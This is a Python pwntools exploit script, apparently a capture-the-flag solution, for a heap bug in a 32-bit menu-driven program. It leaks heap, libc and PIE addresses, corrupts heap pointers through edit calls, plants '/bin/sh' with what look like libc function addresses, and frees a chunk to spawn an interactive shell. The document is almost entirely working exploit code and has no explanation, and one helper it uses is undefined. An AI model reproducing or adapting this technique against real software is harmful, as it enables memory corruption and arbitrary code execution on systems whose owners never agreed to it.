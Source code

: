 ```


for x in range(10):
    dele(1)
for x in range(8):
    add("")

show()


for _ in range(19):
    ru(b"****")
ru("\n")
heap = u32(p.read(3).rjust(4,b'\0'))
heap = XxX(heap)&0xfffff000
warning(hex(heap))
ru(b"****")
ru(b"****")

ru("\n")
p.read(3)
base = u32(p.read(4))-(0xf7f1ea38-0xf7cf8000)
warning(hex(base))


for x in range(24):
    dele(1)
add(b"\1"*0x220)
add(b"\2"*0x220)
add(b"\3"*0x220)

show()

edit(2,b"\1"*0x200+flat([0x573d04b4-0x573cd000+heap,0]))
show()
for _ in range(3):
    ru(b"**** - ")
pie= u32(p.read(4))-0x3164
warning(hex(pie))
# gdb.attach(p)
context.log_level='debug'

edit(1,b'/bin/sh\0'.ljust(0x200,b'\0')+flat([0x3124+pie-8,pie+0x4000-0x300]))

edit(2,b'/bin/sh\0'+flat([0x47cb0+base,0x70ca0+base]))

dele(1)

p.interactive()
```
